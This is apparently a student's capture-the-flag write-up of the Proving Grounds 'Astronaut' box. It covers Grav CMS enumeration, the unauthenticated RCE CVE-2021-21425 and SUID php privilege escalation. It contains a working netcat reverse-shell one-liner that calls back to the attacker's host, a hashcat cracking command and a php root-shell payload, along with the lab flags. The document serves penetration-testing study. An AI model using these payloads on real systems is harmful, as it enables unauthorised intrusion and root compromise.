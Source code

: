 ```yaml
---
Date: 2024-10-03
Platform: PG-Practice
Category: Linux
Difficulty: Easy
Status: In progress
IP: 192.168.155.12
Writeup: https://medium.com/@ardian.danny/oscp-practice-series-20-proving-grounds-astronaut-627bc41a86ef
---
```

# Astronaut
Much quicker and more useful experience than `Exfiltrated`. Did my own enumeration, and used the [walkthrough](https://medium.com/@ardian.danny/oscp-practice-series-20-proving-grounds-astronaut-627bc41a86ef) only as a guide when getting stuck. 

Discovering "blind" exploits was interesting, however it made sense that if the exploit isn't generating any output and not creating a reverse shell, that you might need to add a `-c` command with a line of bash to establish a reverse shell instead. Although once again all the instructions were in the script if you looked - ***always read the script!***

It's been awhile since I did Linux Priv Esc too, so refreshing that was handy - I've added a few extra details to the Linux PrivEsc section of the cheatsheet, but I suspect it'll be polished up as I do more Linux boxes.

# Resolution summary
- Ran nmap to find SSH & HTTP (Targeted HTTP for initial enumeration)
- Default installation of `grav-admin`, identified potential exploit
- Ran exploit without output
	- Determined it was blind and ran again with a reverse shell command
	- Achieved shell and enumerated server
- Identified privilege escalation through `php7.4` binary using `SUID`
	- Achieved root access and printed `proof.txt`
## Improved skills
- Abusing Linux binaries
- Running a blind exploit
## Used tools
- nmap
- gobuster
- Hashcat

---

# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN nmap 192.168.155.12 -v
```

Enumerated open TCP ports:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 20:46
Completed NSE at 20:46, 0.00s elapsed
Initiating NSE at 20:46
Completed NSE at 20:46, 0.00s elapsed
Initiating NSE at 20:46
Completed NSE at 20:46, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.23 seconds
           Raw packets sent: 1235 (54.316KB) | Rcvd: 1018 (40.716KB)
```

---
# Enumeration
## Port 22 - SSH (OpenSSH 8.2p1)
No enumeration conducted
## Port 80 - HTTP (Apache/2.4.41)
- Visited `192.168.155.12` with Firefox
![[Pasted image 20241003204915.png]]
- Found default installation page for `grav-admin`
	- *Grav CMS is vulnerable to CVE-2021-21425  (Unauthenticated RCE)*
![[Pasted image 20241003205021.png]]
- Returned to terminal and ran `gobuster` against target:
  `gobuster dir -u  http://192.168.155.12/grav-admin -w //usr/share/dirb/wordlists/big.txt`
 ![[Pasted image 20241003211448.png]]
---
# Exploitation
## CVE-2021-21425  (Unauthenticated RCE)
- Identified exploit `49973.py`
- Modified exploit to suit target and local system
![[Pasted image 20241003212733.png]]
- Launched netcat listener: `nc -nvlp 4444`
- Ran `49973.py` with reverse shell command & established initial access:
  `python3 49973.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.198 4444 >/tmp/f' -t http://192.168.155.12/grav-admin` 
![[Pasted image 20241003213052.png]]
---
# Lateral Movement to user
## Local Enumeration
- Enumerated files to find `admin` user with password hash `$2y$10$dlTNg17RfN4pkRctRm1m2u8cfTHHz7Im.m61AYB9UtLGL2PhlJwe.`
![[Pasted image 20241003215228.png]]
	- Hash identified as `bcrypt`
![[Pasted image 20241003214410.png]]
	- Attempted to cracked with Hashcat:
  `hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt --force`
		- Cancelled: Expected to completion >3 days
- Enumerated `/etc/passwd`
![[Pasted image 20241003215518.png]]
	- Identified user `alex:x:1000:1000::/home/alex:/bin/bash`
		- Unable to access `/home/alex`
		![[Pasted image 20241003215720.png]]
---
# Privilege Escalation
## Local Enumeration
Attempted to upload `linpeas.sh` without success
![[Pasted image 20241003213359.png]]
Enumerated binary permissions
![[Pasted image 20241003222357.png]]
## Privilege Escalation vector
Checked GTFO bins for potential privilege escalation
	- `php` with `SUID` bit set [GTFObins](https://gtfobins.github.io/gtfobins/php/#suid)
```
CMD="/bin/sh"`
./php -r "pcntl_exec('/bin/sh', ['-p']);"`
```
- Achieved root access through privilege escalation & printed `proof.txt`
![[Pasted image 20241003223019.png]]
---
# Trophy & Loot
`flag1.txt` = `T2Zmc2Vj`
`proof.txt` = `bf9dd3d702bddd63bd4c931118340192`